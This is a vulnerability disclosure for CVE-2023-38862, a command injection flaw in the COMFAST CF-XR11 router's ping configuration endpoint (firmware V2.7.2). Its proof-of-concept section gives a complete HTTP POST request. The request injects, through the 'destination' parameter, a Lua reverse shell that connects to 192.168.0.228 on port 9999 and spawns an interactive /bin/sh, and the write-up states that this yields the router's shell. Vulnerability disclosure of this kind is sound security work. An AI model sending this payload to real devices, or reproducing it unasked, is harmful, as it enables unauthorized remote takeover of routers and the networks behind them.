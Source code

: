 # CVE-ID

[cve-2023-38862](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38862)

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_431F64`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `destination` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ping_config`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_431F64`, the program uses function `blobmsg_parse` to obtain the content of parameter `destination`, which are sent by `POST` request. On line 32, the attacker can complete command execution by controlling the `destination` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ping_config` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=ping_config HTTP/1.1
Host: 192.168.0.1
Content-Length: 174
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/tools/tools_ping.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-3a1697bd
Connection: close

{"destination":"127.0.0.1\" && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

